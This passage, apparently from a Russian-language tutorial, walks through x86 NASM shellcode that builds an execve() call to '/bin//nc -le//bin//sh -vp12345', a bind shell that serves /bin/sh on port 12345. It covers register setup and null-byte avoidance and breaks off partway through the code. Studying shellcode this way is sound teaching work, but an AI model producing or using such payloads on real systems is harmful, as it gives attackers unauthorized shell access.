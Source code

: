 - **EBX** — должен содержать адрес строки с filename — `/bin//nc`;
- **ECX** — должен содержать адрес строки с `argv[]` — `"/bin//nc" "-le//bin//sh" "-vp12345"`;
- **EDX** — должен содержать null-байт для `envp[]`.

Регистры ESI и EDI мы использовали как временное хранилище для сохранения аргументов `execve()` в нужной последовательности в стек, чтобы в _блоке 5_ (см. код выше) перенести в регистр ECX указатель (указатель указателя, если быть более точным) на массив `argv[]`.

## Ныряем в код

Разберем код по блокам.

**Блок 1** говорит сам за себя и предназначен для определения секции, содержащей исполняемый код и указание линкеру точки входа в программу.

```nasm
section .text
global _start
_start:
```

**Блок 2**

```nasm
xor edx, edx
```

Обнуляем регистр EDX, значение которого (NULL) будет использоваться для `envp[]`, а также как символ конца строки для вносимых в стек строк. Обнуляем регистр через XOR, так как инструкция `mov edx, 0` привела бы к появлению null-байтов в shell-коде, что недопустимо.

```nasm
push edx        ; Отправляем в стек символ конца строки
push 0x35343332 ; Отправляем в стек строку -vp12345
push 0x3170762d
mov esi, esp    ; Отправляем в ESI адрес -vp12345 строки в стеке
```

### Важно!

Аргументы для `execve()` мы отправляем в стек, предварительно перевернув их справа налево, так как стек растет от старших адресов к младшим, а данные из него извлекаются наоборот — от младших адресов к старшим.

Для того чтобы перевернуть строку и перевести ее в hex, можно воспользоваться следующей Linux-командой:

```
$ echo -n '-vp12345' | rev | od -A n -t x1 |sed 's/ /x/g
x35x34x33x32x31x70x76x2d`
```

**Блок 3**

```nasm
push edx        ; Отправляем в стек символ конца строки
push 0x68732f2f ; Отправляем в стек строку -le//bin//sh
push 0x6e69622f
push 0x2f656c2d
mov edi, esp    ; Отправляем в EDI адрес строки -le//bin//sh в стеке
```

